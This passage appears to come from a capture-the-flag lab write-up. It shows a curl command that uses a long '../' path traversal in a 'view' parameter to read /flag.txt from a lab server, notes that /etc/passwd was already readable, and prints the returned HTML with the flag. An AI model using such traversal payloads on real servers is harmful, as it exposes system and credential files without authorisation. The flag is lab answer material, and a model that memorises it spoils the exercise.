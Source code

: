 ```
            <div class="photo" style="background-image: url(./image.jpg)"></div>
            <ul class="details">
                <li class="author"><a href="#">Jane Doe</a></li>
                <li class="date">July. 15, 2019</li>
            </ul>
        </div>
        <div class="description">
            <h1>Container Industry</h1>
            <h2>Opening a door to the future</h2>
            <p>Lorem ipsum dolor sit amet, consectetur adipisicing elit. Ad eum dolorum architecto obcaecati enim dicta
                praesentium, quam nobis! Neque ad aliquam facilis numquam. Veritatis, sit.</p>
            <p class="read-more">
                <a href="#">Read More</a>
            </p>
        </div>
    </div>
    <!-- partial -->
</body>

</html>
```

We are indeed able to read `/etc/passwd`, let's try to read `/flag.txt`:

```
curl -s "http://94.237.55.155:35676/index.php?view=../../../../../../../../../../../../../../../../../../../flag.txt"
```

```
<!DOCTYPE html>

<html lang="en">

<head>
    <meta charset="UTF-8">
    <title>Inlane Freight</title>
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link href="https://fonts.googleapis.com/css?family=Poppins:300,400,700" rel="stylesheet">
    <link rel='stylesheet' href='https://cdnjs.cloudflare.com/ajax/libs/font-awesome/4.4.0/css/font-awesome.min.css'>
    <link rel="stylesheet" href="./style.css">
</head>

<body>
    <div class="navbar">
        <a href="#home">Inlane Freight</a>
    </div>
    <!-- partial:index.partial.html -->
    <div class="blog-card">
        <div class="meta">
            <div class="photo" style="background-image: url(./image.jpg)"></div>
            <ul class="details">
                <li class="author"><a href="#">John Doe</a></li>
                <li class="date">Aug. 24, 2019</li>
            </ul>
        </div>
        <div class="description">
            <h1>History</h1>
            <h2>Containers</h2>
            HTB{4u70m47!0n_f!nd5_#!dd3n_93m5}
            <p class="read-more">
                <a href="#">Read More</a>
            </p>
```